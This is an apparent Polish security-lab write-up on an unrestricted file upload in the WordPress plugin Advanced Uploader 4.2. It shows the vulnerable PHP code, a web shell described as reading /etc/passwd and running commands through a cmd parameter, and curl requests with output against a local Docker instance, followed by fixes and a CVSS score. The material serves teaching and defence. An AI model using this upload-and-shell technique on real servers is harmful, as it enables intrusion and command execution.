


# Zadanie 5.6 — RCE przez plugin Advanced Uploader 4.2 (CVE-2022-1103, CWE-22)

**Cel:** WordPress z wtyczką **Advanced Uploader ≤ 4.2** pozwala wgrać dowolny
plik (także `.php`), co prowadzi do **odczytu `/etc/passwd`** i **RCE**.

- **Środowisko:** WordPress + MariaDB (docker compose), `http://127.0.0.1:3003`
- **Podatność:** brak walidacji typu pliku w uploadzie wtyczki
- **CVE:** CVE-2022-1103, autor wtyczki: Oli Redmond, wersja **4.2**

---

## a) Uruchomienie środowiska

```bash
cd 5.6
sudo docker compose -f docker-compose-cve-2022-1103.yml up -d
# WordPress na http://127.0.0.1:3003 (MariaDB potrzebuje ~30 s na start)
```

## b) Instalacja WordPressa
Instalator pod `/wp-admin/install.php` → utworzenie konta admina → logowanie.

## c) Instalacja podatnej wtyczki
Wtyczki → Dodaj nową → Wyślij wtyczkę na serwer → `advanced-uploader.zip`
(Stable tag: 4.2) → Zainstaluj → Włącz.



## Dlaczego podatne (fragment kodu wtyczki, `upload.php`)

```php
// funkcja adv_upload_dropzone()
$fileName = wp_unique_filename($targetDir, $fileName);  // tylko unikalna nazwa
$filePath = $targetDir . DIRECTORY_SEPARATOR . $fileName;
$out = @fopen("{$filePath}", "wb");                      // zapis BEZ kontroli typu
```

Brak jakiejkolwiek walidacji rozszerzenia / typu MIME — plik `.php` zapisuje się
wprost do `wp-content/uploads/` i jest wykonywany przez serwer.

## d) + e) Atak

Web shell `shell.php` (domyślnie `file_get_contents('/etc/passwd')`, a z
parametrem `?cmd=` — `system()`), wgrany przez **Media → Advanced uploader**
(dropzone „Drop files here or click to upload").



Plik wylądował w `wp-content/uploads/2026/10/shell.php` i jest wykonywany:

**5.6 d — odczyt /etc/passwd:**
```bash
curl "http://127.0.0.1:3003/wp-content/uploads/2026/10/shell.php"
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# ...
```

**5.6 e — RCE (wykonywanie komend):**
```bash
curl "http://127.0.0.1:3003/wp-content/uploads/2026/10/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

curl ".../shell.php?cmd=uname%20-a"
# Linux 909cc558857c 6.5.0-42-generic ... x86_64 GNU/Linux

curl ".../shell.php?cmd=whoami"
# www-data
```

Serwer wykonuje dowolne polecenia w kontekście użytkownika `www-data` — pełne RCE.

---

## Na czym polega błąd
Wtyczka zapisuje przesłany plik bez sprawdzenia rozszerzenia ani typu, do
katalogu serwowanego i wykonywanego przez PHP. Dodatkowo (CVE-2022-1103)
dostęp do uploadu mają nawet użytkownicy o niskich uprawnieniach (subscriber).

## Jak naprawić
- Whitelist rozszerzeń + weryfikacja rzeczywistego typu (`finfo`), wymuszenie
  bezpiecznego rozszerzenia.
- Ograniczenie uprawnień do uploadu (capability check), nie dla subscriberów.
- Wyłączenie wykonywania PHP w `wp-content/uploads/`.
- Aktualizacja/usunięcie wtyczki (podatność w wersji ≤ 4.2).

## f) CVSS (propozycja)
Nieautoryzowany/niskouprawniony upload → pełne RCE:
`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` ≈ **8.8 (High)**
(do zweryfikowania na kalkulatorze NVD).
